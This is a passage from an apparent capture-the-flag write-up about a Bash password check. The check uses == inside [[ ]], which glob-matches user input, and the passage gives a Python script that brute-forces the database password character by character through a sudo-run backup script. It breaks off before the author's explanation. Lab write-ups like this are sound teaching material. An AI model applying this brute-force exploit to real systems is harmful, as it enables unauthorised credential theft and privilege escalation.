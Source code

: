 
After looking at the code again, I realized that there is a vulnerablilty with how password handling is happening.
```
if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

According to a walkthrough I was following (I knew there was going to be an exploit like this, I just didn’t know exactly why)

“This section of the script compares the user-provided password (USER_PASS) with the actual database password (DB_PASS). The vulnerability here is due to the use of == inside [[ ]] in Bash, which performs pattern matching rather than a direct string comparison. This means that the user input (USER_PASS) is treated as a pattern, and if it includes glob characters like * or ?, it can potentially match unintended strings.

For example, if the actual password (DB_PASS) is password123 and the user enters * as their password (USER_PASS), the pattern match will succeed because * matches any string, resulting in unauthorized access.

This means we can bruteforce every char in the DB_PASS.“

The walkthrough I was following created a custom python script, which did exactly that - bruteforcing every character in the database.

```
import string
import subprocess

def check_password(p):
	command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
	result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
	return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
	for char in charset:
		if check_password(password + char):
			password += char
			print(password)
			break
	else:
		is_password_found = True
```

If you don't understand this python script fully, THAT IS OK! At first I didn't really understand it either. The best thing you can do is dive deeper and understand it bit by bit. Which I am about to explain here:
